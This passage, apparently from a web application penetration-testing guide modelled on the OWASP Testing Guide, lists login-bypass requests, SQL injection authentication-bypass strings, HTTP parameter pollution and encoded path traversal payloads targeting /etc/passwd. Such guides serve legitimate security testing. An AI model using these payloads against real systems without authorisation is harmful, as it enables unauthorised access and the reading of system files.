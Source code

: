 #### Direct Object Reference
```http
# Bypass login by direct URL access
GET /dashboard HTTP/1.1
Host: target.com

# Parameter manipulation
GET /login?authenticated=true HTTP/1.1
GET /login?role=admin HTTP/1.1
```

#### SQL Injection Authentication Bypass
```sql
-- SQL injection payloads for authentication bypass
admin' --
admin' /*
' OR '1'='1' --
' OR '1'='1' /*
admin'/**/OR/**/1=1/**/--
```

#### HTTP Parameter Pollution
```http
# Parameter pollution testing
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=user&password=wrong&username=admin&password=admin
```

## 5. Authorization Testing

### 5.1 Test Directory Traversal File Include (OTG-AUTHZ-001)

#### Path Traversal Testing
```bash
# Basic path traversal
../../../etc/passwd
..\..\..\..\windows\system32\drivers\etc\hosts

# URL encoding
..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

# Double URL encoding  
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

# Unicode encoding
..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
```
